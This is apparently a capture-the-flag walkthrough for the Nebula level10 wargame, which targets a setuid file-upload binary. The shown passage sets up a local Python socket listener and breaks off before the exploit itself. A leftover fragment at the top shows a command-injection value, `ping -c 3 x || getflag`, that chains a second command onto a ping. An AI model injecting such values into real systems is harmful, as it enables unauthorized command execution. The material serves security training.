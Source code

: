 ```@output = `ping -c 3 x || getflag 2>&1```. Because `ping -c 3 x`
* * *

# [level10](https://exploit-exercises.com/nebula/level10/)

>## About
>
>The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call.
>
>To do this level, log in as the level10 account with the password level10. Files for this level can be found in /home/flag10.

This level provides source code of file `basic.c`, If you're
interested in reading it, you can do so
[here](https://exploit-exercises.com/nebula/level10/).

## Let's summarize what the code does.

**The program checks for error-values in each step & exits if something's not right.**
 
1. Connect to a host
2. Write some string to the hosts connection
3. Check if we can open the specified file
4. Read from the specified file
5. Write the contents of the specified file

First thing I did was to lay down some code to setup a server
for the program to talk to, I used python but any ol' programming
language with support for sockets should work.

{% highlight python %}
# socketListener.py

# datetime is not necessary, but it helped me debug the program
import socket, datetime, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("127.0.0.1", 18211))
s.listen(1)

while 1:
	conn, addr = s.accept()
	print("ACCP", datetime.datetime.now())
	try:
		buffer = conn.recv(4096)
		print("RECV", datetime.datetime.now())
	except Exception as e:
		print(e)
		quit(1)
	print(type(buffer))
	print("buffer:", buffer)

# TL;DR: Listen for connections on port 18211, printing accepted
# connections & received data along with timestamps. If something goes
# wrong while receiving data, print the exception & exit.

{% endhighlight %}

Now I could test the program & see how long it took for my
server in-between it accepted a connection & actually received
data.

While listening on a separate tty, I could use the program to send
```